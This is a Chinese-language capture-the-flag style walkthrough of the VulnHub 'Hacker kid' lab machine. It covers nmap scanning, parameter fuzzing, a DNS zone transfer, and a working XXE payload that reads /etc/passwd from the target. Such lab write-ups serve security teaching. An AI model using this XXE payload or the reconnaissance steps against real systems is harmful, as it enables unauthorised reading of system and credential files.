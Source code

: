 靶机地址：[Hacker kid: 1.0.1 ~ VulnHub](https://www.vulnhub.com/entry/hacker-kid-101,719/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.35
sudo nmap -p53,80,9999 -sV 192.168.1.35
# 53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
# 80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
# 9999/tcp open  http    Tornado httpd 6.1
```
可以看到53端口是域名服务，通常TCP53和UDP53是同时开放的，TCP53用于服务期间同步，UDP53接收域名查询。
```Shell
# -sU参数 UDP扫描
sudo nmap -p53 -sU -sV 192.168.1.35
# 53/udp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
```
对这个DNS服务版本进行搜索，没有找到合适的利用代码。
先访问下web服务看看。80端口手动查看能发现如下路径
```
/index.php
/app.html
/form.html
```
简单试了下，暂时没有发现可以利用的地方
9999端口是一个登录页面。
回到80端口的首页上，有提示：`dig` 。和域名有关，寻找相关信息。
可以在源码中看到这样一段注释：`TO DO: Use a GET parameter page_no to view pages.`
手动访问 `http://192.168.1.35/?page_no=1` ，页面上出现一行提示：Oh Man !! Isn't is right to go a little deep inside?
尝试对这个参数进行暴力破解，`http://192.168.1.35/?page_no=21` 多了一些返回内容。
其中最关键的是：`hackers.blackhat.local`
DNS区域传输，用的就是TCP53端口
```Shell
dig axfr @192.168.1.35 blackhat.local | grep -v ";" | sort -k 1,1 | sort -k 4,4 | uniq | grep -w "blackhat.local"
# hackerkid.blackhat.local
# hackers.blackhat.local
# blackhat.local
```
编辑 `hosts` 文件
```Shell
sudo vim /etc/hosts
```
加入如下内容
```
# blackhat.local
192.168.1.35    hackerkid.blackhat.local
192.168.1.35    hackers.blackhat.local
192.168.1.35    blackhat.local
```
发现 `hackerkid.blackhat.local` 是一个注册页面，尝试发送请求，失败了，提示邮箱格式不正确，使用BurpSuite拦截请求看看。发现请求的内容是XML格式，尝试XXE。
尝试如下Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY bar SYSTEM 'file:///etc/passwd'>]>
<root>
	<name>abc</name>
	<tel>123</tel>
	<email>&bar;</email>
	<password>123</password>
</root>
```
确实存在XXE漏洞，可能可以利用的用户包括
```
root:x:0:0:root:/root:/bin/bash
saket:x:1000:1000:Ubuntu,,,:/home/saket:/bin/bash
```
